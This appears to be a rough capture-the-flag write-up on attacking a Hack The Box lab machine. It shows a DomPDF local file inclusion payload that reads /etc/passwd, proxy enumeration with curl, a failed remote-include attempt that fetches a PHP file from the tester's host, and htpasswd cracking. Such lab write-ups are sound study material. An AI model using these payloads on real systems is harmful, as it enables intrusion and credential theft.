 4. nikto through proxy reveals server-status accessible (not accessible directly, only through the proxy)

```
curl -v --proxy1.0 10.10.10.67:3128 http://127.0.1.1/server-status > server-status
curl -v --proxy1.0 10.10.10.67:3128 http://10.10.10.67
```

So we can see what other people are doing on the machine.

# DomPDF

```
<p>The document has moved <a href="http://127.0.1.1/dompdf/">here</a>.</p>
```

DOMPDF 0.6.0 versio is vulnerable!
https://www.exploit-db.com/exploits/33004/
https://www.exploit-db.com/exploits/14851/

## LFI in DomPDF

```GET http://10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd```

dompdf admin UI not installed? admin is user/password hmm

group/etc/passwd reveal that IRCD is somwhere. nmap doesn't show..
username is cobb


config - REMOTE EXEC enabled! ? but but .. how to run code when firewall doesn't allow remote connections??
```def("DOMPDF_ENABLE_REMOTE", true);```


Can we fetch stuff over the VPN tunnel?

```
* Connection #0 to host 10.10.10.67 left intact
root@kali:~/htb/inception# curl --proxy1.0 10.10.10.67:3128 -v "http://127.0.1.1/dompdf/dompdf.php?input_file=http%3A%2F%2F10.10.15.124%3A8000%2Fkak.php"
*   Trying 10.10.10.67...
* TCP_NODELAY set
* Connected to 10.10.10.67 (10.10.10.67) port 3128 (#0)
> GET http://127.0.1.1/dompdf/dompdf.php?input_file=http%3A%2F%2F10.10.15.124%3A8000%2Fkak.php HTTP/1.1
```

Nope :(


# Brute loader

Difficult to figure out which files to download. So finally wrote a brute force loader..

# Password hash cracking


```
## Apache default config for site loaded through LFI
## htpasswd loaded through LFI
## rockyou rocked the password